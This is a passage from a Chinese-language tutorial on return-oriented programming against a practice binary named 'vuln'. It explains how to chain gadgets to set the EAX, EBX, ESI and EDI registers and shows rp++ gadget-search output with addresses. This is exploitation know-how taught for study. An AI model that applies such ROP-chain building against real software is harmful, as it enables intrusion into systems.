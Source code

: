 同样确保 EAX 不要在`_fini`的返回处（`0x8048635`）和返回指令（`0x80485d0`）之间修改。这可以通过设置`edi = esi + 1`来实现。如果设置了`edi = esi + 1`，跳转指令`0x80485c7`就会确保控制流跳转到`0x80485c9`的指令。之后我们可以看到，`0x80485c9`指令到返回指令（`0x80485d0`）之间，EAX 都不会改动。

零件 5：将 EBX 加载为`0x3fc9c18`：

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
65 found.

A total of 65 gadgets found.
...
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```

零件 6：将 ESI 加载为`0x01020101 `，EDI 加载为`0x01020102`:

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 3
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
135 found.

A total of 135 gadgets found.
...
0x080485ce: popl %edi ; popl %ebp ; ret ; (1 found)
0x080485cd: popl %esi ; popl %edi ; popl %ebp ; ret ; (1 found)
0x08048390: pushl 0x08049FF8 ; jmpl *0x08049FFC ; (1 found)
...
$
```

零件 7：将`0x1`复制到内存地址`0x804a028`：
